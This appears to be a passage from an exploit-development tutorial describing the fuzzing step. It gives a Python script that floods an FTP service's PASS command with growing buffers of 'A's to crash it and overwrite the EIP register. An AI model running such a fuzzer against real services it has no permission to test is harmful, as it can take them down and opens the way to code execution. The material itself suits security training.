 # 4. Fuzzing

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

```python
import socket, time, sys

ip = "10.0.0.1"
port = 21
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
	buffer.append("A" * counter)
	counter += 100

for string in buffer:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.settimeout(timeout)
		connect = s.connect((ip, port))
		s.recv(1024)
		s.send("USER username\r\n")
		s.recv(1024)

		print("Fuzzing PASS with %s bytes" % len(string))
		s.send("PASS " + string + "\r\n")
		s.recv(1024)
		s.send("QUIT\r\n")
		s.recv(1024)
		s.close()
	except:
		print("Could not connect to " + ip + ":" + str(port))
		sys.exit(0)
	time.sleep(1)
```

Note that, we need to change `send` command to the command that we spiked and its format will be identified by seeing the `EAX` register in the previous step (spiking). Also add or remove `recv` commands according to the messages that the commands send

Finally run this script and check that the EIP register has been overwritten by A's (\x41). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.
